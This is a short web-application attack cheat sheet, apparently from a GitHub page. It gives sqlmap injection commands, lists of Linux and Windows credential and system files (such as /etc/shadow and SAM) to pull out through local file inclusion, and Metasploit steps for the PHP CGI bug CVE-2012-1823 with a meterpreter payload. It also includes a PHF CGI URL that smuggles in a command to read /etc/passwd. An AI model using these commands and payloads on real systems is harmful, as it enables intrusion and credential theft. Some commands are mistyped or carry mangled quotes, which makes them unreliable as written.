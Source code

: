 # Attacking Web Applications

## Burp Extentions


## SQL Injection


## SQLMap Cheatsheet
```
#GET Request Injection
sqlmap –cookie=”OV3176019645=7a1p0ilqfud0s0dhdf0p5pqog4″ –url=”http://10.xx.xx.73:8080/php/index.php?tg=site&idx=menusite&item=2&#8243; -p item –proxy=http://127.0.0.1:8081

#POST Request Injection
sqlmap -r sqlmap_request2 -p txtLoginID
```


## Exfiltrate Linux Files - Local File Inclusion
```
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root

...log files
```

## Exfiltrate Windows Files - Local File Inclusion
```
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\repair\SAM
%WINDIR%\win.ini
%SYSTEMDRIVE%\boot.ini
%WINDIR%\Panther\sysprep.inf
%WINDIR%\system32\config\AppEvent.Evt
```

## PHP CGI-Bin Exploits
```
# Detecting / Explout PHP CGI Bug - [CVE-2012-1823]
nmap -p80 --script http-cve2012-1823
msf> use exploit/multi/http/php_cgi_arg_injection
msf> set rhost [HOST_IP]
msf> set PAYLOAD php/meterpreter/bind_tcp
msf> exploit
```

```
# PHF CGI Remote Command Execution - [CVE-1999-0067]
http://www.thesite.com/cgi-bin/phf?Qalias=x%0a/bin/cat%20/etc/passwd


```
